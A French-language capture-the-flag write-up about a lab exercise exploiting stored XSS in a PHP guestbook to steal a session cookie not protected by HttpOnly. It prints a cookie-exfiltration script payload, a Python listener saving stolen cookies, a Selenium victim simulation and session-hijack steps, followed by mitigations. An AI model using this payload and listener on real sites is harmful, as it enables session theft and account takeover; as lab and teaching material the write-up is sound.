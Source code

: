 ```yaml
---
title: CWE-79 et CWE-1004 - Stored XSS & Vol de Cookie
next: "/write-ups/wu3"
prev: "/write-ups/wu1"
---
```


# 🏰 Stored XSS & Vol de Cookie - Livre d'Or de Lannisport

## 🎯 Objectif
John doit voler le **cookie de session d’un garde** pour accéder à Castral-Roc.
Pour cela, il injecte un **XSS stocké** dans le **livre d’or** afin de récupérer le cookie **non protégé par HttpOnly**.

**Flag attendu :** Le cookie de session du garde.

---

## ⚙️ Environnement
- **Cible :** `lannisport.south`
- **Page vulnérable :** `livre_dor.php`
- **Langage :** PHP / JavaScript

---

## 🚀 Étape 1 : Injecter un XSS dans le livre d’or
Le formulaire du livre d’or **ne filtre pas les entrées**, permettant d’injecter un script malveillant.

🔹 **Script XSS à injecter dans un commentaire** :
```html
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'http://10.10.10.20:8000/?cookie=' + document.cookie, true);
    xhr.send();
</script>
```

📌 **Effet** : Quand un garde consulte la page, son cookie de session est envoyé à l’attaquant.

---

## 🔍 Étape 2 : Capturer le cookie sur Kali
L’attaquant met en place un **serveur d’écoute** pour récupérer les cookies volés.

🔹 **Script Python sur Kali** :
```python {filename="capture_server.py"}                                                                
from http.server import BaseHTTPRequestHandler, HTTPServer
import urllib.parse

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.send_header("Content-Type", "text/plain")
        self.send_header("Access-Control-Allow-Origin", "*")  # Permet les requêtes CORS
        self.end_headers()

        if "cookie=" in self.path:
            cookie = self.path.split("cookie=", 1)[1]  # Prend toute la valeur du cookie après "cookie="
            cookie = urllib.parse.unquote(cookie)  # Décode les caractères URL-encoded (%3D devient =)
            print(f"Cookie volé : {cookie}")
            with open("stolen_cookies.txt", "a") as f:
                f.write(cookie + "\n")

if __name__ == "__main__":
    server_address = ('10.10.10.20', 8000)  # IP Kali
    httpd = HTTPServer(server_address, Handler)
    print("Serveur en écoute sur le port 8000...")
    httpd.serve_forever()
```
*Veuillez changer l'**IP** en fonction de celle mise sur Kali*

📌 **Démarrer le serveur d’écoute sur Kali** :
```bash
python3 capture_server.py
```

---

## 🚀 Étape 3 : Déclencher l’attaque avec Selenium
Un **script Selenium** simule la navigation d’un garde qui consulte le livre d’or.

🔹 **Script Selenium (Victime - Ubuntu Desktop)** :
```python
from selenium import webdriver
from selenium.webdriver.common.by import By
import time

driver = webdriver.Chrome()
driver.get("http://lannisport.south/login.php")

driver.find_element(By.NAME, "username").send_keys("garde")
driver.find_element(By.NAME, "password").send_keys("password")
driver.find_element(By.NAME, "submit").click()

time.sleep(3)
driver.get("http://lannisport.south/livre_dor.php")
time.sleep(10)

driver.quit()
```
📌 **Quand Selenium exécute ce script, il déclenche le XSS et envoie le cookie à Kali.**

---

## 🎯 Étape 4 : Validation du Flag
✅ **Kali reçoit le cookie de session** :
```bash
cat stolen_cookies.txt
```

✅ **Utilisation du cookie volé pour usurper la session du garde** :
- Ouvrir les outils développeur (`F12`) > **Application** > **Cookies**.
- Modifier `PHPSESSID` avec la valeur capturée.
- Recharger la page.

**🚀 Succès ! L’attaque est réalisée et le flag récupéré !** 🔥

---

## 🔒 Mitigation & Sécurisation
- **Activer `HttpOnly` sur les cookies** pour empêcher l’accès JavaScript.
- **Filtrer les entrées utilisateur** (`htmlspecialchars()`) pour empêcher le XSS.
- **Utiliser CSP (Content Security Policy)** pour bloquer les scripts inline.

---

## 🏆 Conclusion
- **Un XSS stocké a été exploité pour voler un cookie de session.**
- **Le serveur d’écoute Kali a capturé le flag.**
- **L’attaque est réussie !** 🚀🔥